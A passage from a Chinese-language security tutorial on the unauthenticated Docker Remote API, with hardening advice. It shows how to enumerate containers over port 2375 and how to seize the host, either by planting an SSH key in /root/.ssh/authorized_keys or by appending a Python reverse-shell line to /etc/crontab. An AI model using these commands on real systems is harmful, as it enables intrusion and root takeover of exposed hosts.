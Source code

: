 Docker Remote API 是一个取代远程命令行界面（rcli）的REST API。通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell

### 10.2 漏洞利用

http://192.168.198.130:2375/v1.25/images/json 可以获取到所有的 images 列表  

http://host:2375/containers/json  

会返回服务器当前运行的 container 列表，和在 docker CLI 上执行 docker ps 的效果一样，过 Post 包我们还可以新建、开启和关闭容器，其他操作比如拉取 image 等操作也都可以通过 API 调用完成。  
```
$ curl http://10.10.10.10:2375/containers/json
[]

docker -H=tcp://10.10.10.10:2375 ps         
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```
Docker remote Api 未授权访问的攻击原理与之前的 Redis 未授权访问漏洞大同小异，都是通过向运行该应用的服务器写文件，从而拿到服务器的权限，常见的利用方法如下:  

1、启动一个容器，挂载宿主机的/root/目录，之后将攻击者的ssh公钥~/.ssh/id_rsa.pub的内容写到入宿主机的/root/.ssh/authorized_keys文件中，之后就可以用root账户直接登录了   

2、启动一个容器，挂载宿主机的/etc/目录，之后将反弹shell的脚本写入到/etc/crontab中，攻击者会得到一个反弹的shell，其中反弹shell脚本的样例如下：  
```
echo -e "*/1 * * * * root /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"127.0.0.1\",8088));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n" >> /etc/crontab
```
第2种利用方法也可以挂载 var/spool/cron/目录，将反弹shell的脚本写入到/var/spool/cron/root（centos系统）或/var/spool/cron/crontabs/root(ubuntu系统)  

### 10.3 漏洞加固

1、在不必需的情况下，不要启用 docker 的 remote api 服务，如果必须使用的话，可以采用如下的加固方式：  

设置 ACL，仅允许信任的来源 IP 连接；  

设置 TLS 认证，官方的文档为 Protect the Docker daemon socket  
 
2、客户端连接时需要设置以下环境变量 export DOCKER_TLS_VERIFY=1  
```
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```
3、在 docker api 服务器前面加一个代理，例如 nginx，设置 401 认证  

附：Python未授权访问脚本    

此脚本未做测试，请根据自身需求，修改测试使用！  